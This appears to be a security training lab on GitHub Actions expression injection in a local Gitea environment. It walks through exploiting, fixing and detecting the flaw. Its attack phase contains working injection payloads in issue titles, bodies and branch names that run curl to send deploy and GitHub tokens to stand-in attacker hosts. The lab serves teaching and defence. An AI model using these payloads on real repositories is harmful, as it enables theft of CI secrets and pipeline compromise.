

# Lab 2.6: GitHub Actions Injection

<div class="lab-meta">
  <span>~30 minutes</span>
  <span>Intermediate</span>
  <span>Prerequisites: <a href="2.2-direct-ppe.md">Lab 2.2</a></span>
</div>

In October 2020, security researchers at GitHub disclosed a class of vulnerabilities in GitHub Actions where `${{ }}` expressions interpolate user-controlled inputs directly into shell commands. An attacker who controls an issue title, PR branch name, commit message, or comment body can inject arbitrary shell commands that execute inside the CI pipeline. without modifying any workflow file.

This is not PPE. The workflow YAML stays untouched on the default branch. The vulnerability is in how the workflow uses expressions: when `${{ github.event.issue.title }}` appears inside a `run:` block, GitHub Actions performs string interpolation *before* the shell sees it. If the issue title contains backticks, `$(...)`, or semicolons, the shell executes them.

Projects like `github/codeql-action`, `microsoft/vscode`, and hundreds of others were found vulnerable to this exact pattern. In this lab, you will exploit Actions expression injection to achieve code execution, then defend against it.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `acme-webapp` with Actions workflows |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. Expression Interpolation"

    **Goal:** Understand how GitHub Actions expressions work and why direct interpolation in `run:` blocks is dangerous.

### Step 1: Examine the vulnerable workflow

```bash
cd /repos/acme-webapp
cat .gitea/workflows/issue-triage.yml
```

Look for `run:` blocks that use `${{ }}` expressions with event data:

```yaml
- name: Greet issue author
  run: |
    echo "Processing issue: ${{ github.event.issue.title }}"
    echo "Author: ${{ github.event.issue.user.login }}"
```

### Step 2: Understand expression evaluation order

GitHub Actions processes expressions in two phases:

1. **Expression evaluation**. `${{ github.event.issue.title }}` is replaced with the literal string value
2. **Shell execution**. the resulting string is passed to `bash -c`

If the issue title is `Fix login bug`, the shell sees:

```bash
echo "Processing issue: Fix login bug"
```

But if the issue title is `Fix" && curl http://evil.com #`, the shell sees:

```bash
echo "Processing issue: Fix" && curl http://evil.com #"
```

The `&&` breaks out of the echo and executes `curl`. The `#` comments out the trailing quote.

### Step 3: Identify injectable contexts

Not all `${{ }}` contexts are equally dangerous. These are attacker-controlled:

| Context | Controlled by |
|---------|--------------|
| `github.event.issue.title` | Issue author |
| `github.event.issue.body` | Issue author |
| `github.event.comment.body` | Comment author |
| `github.event.pull_request.title` | PR author |
| `github.event.pull_request.body` | PR author |
| `github.head_ref` | PR author (branch name) |
| `github.event.commits[*].message` | Committer |
| `github.event.discussion.title` | Discussion author |

These are **not** attacker-controlled (safe to interpolate):

| Context | Controlled by |
|---------|--------------|
| `github.repository` | Repo owner |
| `github.event.repository.name` | Repo owner |
| `github.actor` | Authenticated user (limited charset) |
| `github.ref` | Git ref (limited by branch protection) |

### Step 4: See why this is different from PPE

In PPE ([Lab 2.2](2.2-direct-ppe.md)), the attacker modifies the workflow YAML. In expression injection:

- The **workflow file is never modified**. it stays on the default branch
- The **injection comes through event data**. issue titles, PR bodies, comments
- The **attack surface is wider**. anyone who can open an issue can trigger it
- The **CODEOWNERS defense does not help**. no files are changed in the repo

---

???+ warning "Phase 2: BREAK. Injecting via Issue Title"

    **Goal:** Create an issue with a crafted title that achieves code execution in the CI pipeline.

### Step 1: Identify the target workflow

```bash
# The issue-triage workflow runs on issues.opened and uses the title directly
cat .gitea/workflows/issue-triage.yml
```

The vulnerable line:

```yaml
run: echo "Processing issue: ${{ github.event.issue.title }}"
```

### Step 2: Craft the malicious issue title

```bash
# The title will break out of the echo and execute arbitrary commands
MALICIOUS_TITLE='Fix login bug" && curl -sf http://attacker.internal/steal?secret=$(printenv DEPLOY_TOKEN) && echo "'

# What the shell sees after interpolation:
# echo "Processing issue: Fix login bug" && curl -sf http://attacker.internal/steal?secret=ghp_xxx && echo ""
```

### Step 3: Create the issue

```bash
curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/acme-webapp/issues" \
  -H "Content-Type: application/json" \
  -u "attacker:password" \
  -d "{\"title\": \"$MALICIOUS_TITLE\"}"
```

### Step 4: Observe the injection

When the workflow runs, the `run:` step becomes:

```bash
echo "Processing issue: Fix login bug" && curl -sf http://attacker.internal/steal?secret=ghp_deploy_x8k2m5n7p9q1r3t6v0w4y && echo ""
```

The deploy token is exfiltrated via the curl command embedded in the issue title.

### Step 5: Advanced injection techniques

**Branch name injection** (via `github.head_ref`):

```bash
# Create a PR with a malicious branch name
git checkout -b 'feature/fix-$(curl attacker.internal/pwned)'
git push origin 'feature/fix-$(curl attacker.internal/pwned)'
```

**Multi-line injection via issue body** (via `github.event.issue.body`):

```bash
BODY='Normal description\n```\nreverse shell here\n```\n"; curl http://attacker.internal/exfil?t=$GITHUB_TOKEN; echo "'

curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/acme-webapp/issues" \
  -H "Content-Type: application/json" \
  -u "attacker:password" \
  -d "{\"title\": \"Normal bug report\", \"body\": \"$BODY\"}"
```

### Step 6: Why this is dangerous at scale

- **Any user who can open an issue can exploit this**. no write access needed
- **Works on public repos**. anyone on GitHub can open an issue
- **No code changes visible**. the attack is entirely in the issue metadata
- **Automated workflows are common**. issue triage, labeling, greeting bots all use event data

---

???+ success "Phase 3: DEFEND. Safe Expression Handling"

    **Goal:** Eliminate injection by using intermediate environment variables instead of direct interpolation.

### Fix 1: Use environment variables instead of direct interpolation

```bash
cd /repos/acme-webapp
git checkout main
```

The fix is simple: assign the expression to an environment variable, then reference the variable in the shell. Environment variables are passed as data, not interpolated into the command string.

**Vulnerable:**

```yaml
- name: Process issue
  run: echo "Processing: ${{ github.event.issue.title }}"
```

**Fixed:**

```yaml
- name: Process issue
  env:
    ISSUE_TITLE: ${{ github.event.issue.title }}
  run: echo "Processing: $ISSUE_TITLE"
```

With the fix, the shell receives:

```bash
ISSUE_TITLE='Fix" && curl http://evil.com #' echo "Processing: $ISSUE_TITLE"
```

The malicious content is treated as a string value, not a shell command.

### Fix 2: Apply the fix to the workflow

```bash
cat > .gitea/workflows/issue-triage.yml << 'EOF'
name: Issue Triage

on:
  issues:
    types: [opened]

permissions:
  issues: write

jobs:
  triage:
    runs-on: ubuntu-latest
    steps:
      - name: Process issue
        env:
          ISSUE_TITLE: ${{ github.event.issue.title }}
          ISSUE_AUTHOR: ${{ github.event.issue.user.login }}
          ISSUE_BODY: ${{ github.event.issue.body }}
        run: |
          echo "Processing issue: $ISSUE_TITLE"
          echo "Author: $ISSUE_AUTHOR"

          # Safe to use in conditions too
          if echo "$ISSUE_TITLE" | grep -qi "bug"; then
            echo "Labeling as bug"
          fi

      - name: Add label
        if: contains(github.event.issue.labels.*.name, 'needs-triage')
        uses: actions/github-script@v7
        with:
          script: |
            // github-script is safe -- inputs are passed as JS strings, not shell
            await github.rest.issues.addLabels({
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: context.issue.number,
              labels: ['triaged']
            })
EOF
```

### Fix 3: Audit all workflows for injection

```bash
# Find all direct interpolation of user-controlled data in run: blocks
grep -rn '\${{.*github\.event\.' .gitea/workflows/ | grep 'run:'

# Specifically dangerous patterns:
grep -rn '\${{.*\(issue\|pull_request\|comment\|discussion\|head_ref\|commits\)' \
  .gitea/workflows/ | grep -v 'env:' | grep -v '#'
```

### Fix 4: Commit and push

```bash
git add -A
git commit -m "Fix Actions injection: use env vars for all user-controlled inputs"
git push origin main
```

### Additional defenses

1. **Use `actions/github-script`** for interacting with GitHub API. it passes inputs as JavaScript strings, not shell commands
2. **Restrict workflow permissions**. use `permissions:` to limit what the workflow can access
3. **Use CodeQL or Zizmor** to scan workflows. both can detect expression injection patterns
4. **Avoid `run:` with event data entirely**. prefer purpose-built Actions over shell scripts for processing event data

### Step 5: Final verification

```bash
weaklink verify 2.6
```

---

??? danger "Phase 4: DETECT. Catching Expression Injection"

    **Goal:** Detect when an attacker exploits expression injection via crafted event data.

### SIEM / Log Indicators

Expression injection attacks manifest as **unusual command execution during issue or PR event-triggered workflows**. The injection payload lives in event metadata (issue titles, PR bodies), not in code changes.

**What to look for:**

- Issue or PR titles containing shell metacharacters: `` ` ``, `$(`, `&&`, `||`, `;`, `|`
- Workflow runs triggered by `issues.opened` or `issue_comment.created` that make outbound network connections
- Build logs showing command output not matching the expected workflow steps
- Issues created by new accounts with suspicious titles or bodies
- Workflow failures with shell syntax errors (sign of a failed injection attempt)

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | Shell command injection via expression interpolation |
| **Exploit Public-Facing Application** | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploiting the CI system's input handling through public-facing issue/PR interfaces |

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Issue title contains shell metacharacters" (webhook monitoring)
    - "Outbound HTTP from issue-triggered workflow" (network monitoring)
    - "Workflow step produced unexpected command output" (CI audit logs)

    **Why this matters to your SOC:** Expression injection is one of the most prevalent GitHub Actions vulnerabilities. GitHub's own security team found it in hundreds of popular repositories. Unlike PPE, this attack does not require any code changes. it uses event metadata as the injection vector. Any public repository with a workflow that interpolates issue data in `run:` blocks is vulnerable, and anyone on GitHub can open an issue.

    **Triage workflow:**

    1. **Inspect the event payload**. check the issue title, body, PR branch name, or comment body for shell metacharacters
    2. **Check the workflow definition**. does it use `${{ github.event.* }}` directly in `run:` blocks?
    3. **Review build logs**. look for unexpected command output or outbound connections
    4. **Check secret access**. did the workflow have access to secrets? Were they exposed?
    5. **If confirmed: rotate any secrets accessible to the workflow**. they should be assumed compromised
    6. **Fix the workflow**. replace direct interpolation with `env:` variable assignment

    **False positive rate:** Medium. Some legitimate issue titles may contain characters like `$` or `&`. Focus on titles containing complete shell injection patterns like `$()`, backtick pairs, or `&&`/`||` chains.

---

??? example "CI Integration"

    **`.github/workflows/injection-scanner.yml`:**

    ```yaml
    name: Actions Injection Scanner

    on:
      pull_request:
        paths:
          - ".github/workflows/**"

    jobs:
      scan-for-injection:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Check for direct expression interpolation
            run: |
              echo "Scanning workflows for expression injection..."
              VULNERABLE=0

              for wf in .github/workflows/*.yml; do
                # Find run: blocks that directly interpolate event data
                if grep -Pzo '(?s)run:.*?\$\{\{.*?github\.event\.(issue|pull_request|comment|discussion|head_ref|commits)' "$wf" 2>/dev/null; then
                  echo "::error file=$wf::Direct interpolation of user-controlled event data in run: block"
                  VULNERABLE=1
                fi
              done

              if [ "$VULNERABLE" -eq 1 ]; then
                echo ""
                echo "Fix: Use env: to assign expressions to environment variables"
                echo "  env:"
                echo "    TITLE: \${{ github.event.issue.title }}"
                echo "  run: echo \"\$TITLE\""
                exit 1
              fi

              echo "No injection vulnerabilities found."

          - name: Run Zizmor (optional)
            if: always()
            run: |
              pip install zizmor 2>/dev/null && \
              zizmor .github/workflows/ || true
    ```

---

## What You Learned

1. **`${{ }}` expressions are interpolated before the shell runs**. they become literal text in the shell command.
2. **User-controlled event data is injectable**. issue titles, PR bodies, branch names, and comments can contain shell metacharacters.
3. **Expression injection does not require code changes**. the workflow YAML stays untouched, the attack comes through event metadata.
4. **The fix is simple: use `env:` variables**. assign the expression to an environment variable, then reference `$VAR` in the shell.
5. **CODEOWNERS does not help**. no files are changed, so code review gates do not trigger.
6. **Any user who can open an issue can attack**. this is a public attack surface on open-source repos.
7. **Static analysis can find it**. tools like Zizmor and CodeQL detect direct interpolation patterns.

## Further Reading

- [GitHub Security Lab: Expression injection in Actions](https://securitylab.github.com/research/github-actions-untrusted-input/)
- [GitHub: Security hardening. using expressions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#understanding-the-risk-of-script-injections)
- [Zizmor: GitHub Actions static analysis](https://github.com/woodruffw/zizmor)
- [Cycode: GitHub Actions Injection Research](https://cycode.com/blog/github-actions-vulnerabilities/)
- [OWASP: CI/CD Top 10 - CICD-SEC-4: Poisoned Pipeline Execution](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

<div class="terminal-embed"><iframe src="http://localhost:7681"></iframe></div>
